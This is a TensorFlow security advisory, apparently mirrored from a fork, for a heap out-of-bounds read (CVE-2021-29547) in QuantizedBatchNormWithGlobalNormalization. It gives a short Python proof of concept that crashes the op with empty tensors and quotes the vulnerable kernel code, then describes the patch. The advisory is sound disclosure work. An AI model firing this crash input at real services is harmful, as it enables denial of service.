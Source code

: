 ## TFSA-2021-035: Heap out of bounds in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29547

### Impact
An attacker can cause a segfault and denial of service via accessing data
outside of bounds in `tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([1], shape=[1, 1, 1, 1], dtype=tf.quint8)
t_min = tf.constant([], shape=[0], dtype=tf.float32)
t_max = tf.constant([], shape=[0], dtype=tf.float32)
m = tf.constant([1], shape=[1], dtype=tf.quint8)
m_min = tf.constant([], shape=[0], dtype=tf.float32)
m_max = tf.constant([], shape=[0], dtype=tf.float32)
v = tf.constant([1], shape=[1], dtype=tf.quint8)
v_min = tf.constant([], shape=[0], dtype=tf.float32)
v_max = tf.constant([], shape=[0], dtype=tf.float32)
beta = tf.constant([1], shape=[1], dtype=tf.quint8)
beta_min = tf.constant([], shape=[0], dtype=tf.float32)
beta_max = tf.constant([], shape=[0], dtype=tf.float32)
gamma = tf.constant([1], shape=[1], dtype=tf.quint8)
gamma_min = tf.constant([], shape=[0], dtype=tf.float32)
gamma_max = tf.constant([], shape=[0], dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/galeone/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc#L176-L189)
assumes the inputs are not empty:

```cc
const float input_min = context->input(1).flat<float>()(0);
const float input_max = context->input(2).flat<float>()(0);
...
const float mean_min = context->input(4).flat<float>()(0);
const float mean_max = context->input(5).flat<float>()(0);
...
const float var_min = context->input(7).flat<float>()(0);
const float var_max = context->input(8).flat<float>()(0);
...
const float beta_min = context->input(10).flat<float>()(0);
const float beta_max = context->input(11).flat<float>()(0);
...
const float gamma_min = context->input(13).flat<float>()(0);
const float gamma_max = context->input(14).flat<float>()(0);
```

If any of these inputs is empty, `.flat<T>()` is an empty buffer, so accessing
the element at index 0 is accessing data outside of bounds.

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/galeone/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/galeone/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
